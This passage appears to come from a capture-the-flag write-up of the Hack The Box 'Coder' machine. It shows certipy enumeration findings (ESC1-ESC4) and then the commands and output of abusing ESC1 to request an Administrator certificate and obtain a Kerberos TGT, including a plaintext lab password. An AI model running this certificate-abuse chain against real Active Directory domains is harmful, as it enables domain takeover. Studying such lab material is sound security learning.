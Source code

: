 ```bash
        Owner                           : CODER.HTB\Erron Black
        Full Control Principals         : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
        Write Owner Principals          : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
        Write Dacl Principals           : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
        Write Property Principals       : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
    [!] Vulnerabilities
      ESC1                              : 'CODER.HTB\\PKI Admins' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'CODER.HTB\\PKI Admins' can enroll and template can be used for any purpose
      ESC3                              : 'CODER.HTB\\PKI Admins' can enroll and template has Certificate Request Agent EKU set
      ESC4                              : Template is owned by CODER.HTB\Erron Black


```

I can abuse the ESC1 vulnerability to request a certificate for Administrator.

```bash
❯ certipy req \
-u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300' \
-ca 'coder-DC01-CA' -target coder.htb \
-upn Administrator@coder.htb -dns dc01.coder.htb -dc-ip 10.129.229.190 \
-template Abraxas
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 17
[*] Got certificate with multiple identifications
    UPN: 'Administrator@coder.htb'
    DNS Host Name: 'dc01.coder.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_dc01.pfx'
```

Using certipy again, I can use the obtained certificate to get the hash for Administrator.

```bash
❯ _ ntpdate 10.129.229.190
[sudo] password for kali:
2023-12-15 03:53:33.525549 (+0530) +20092.093889 +/- 0.047332 10.129.229.190 s1 no-leap
CLOCK: time stepped by 20092.093889

❯ certipy auth -pfx administrator_dc01.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@coder.htb'
    [1] DNS Host Name: 'dc01.coder.htb'
> 0
[*] Using principal: administrator@coder.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
```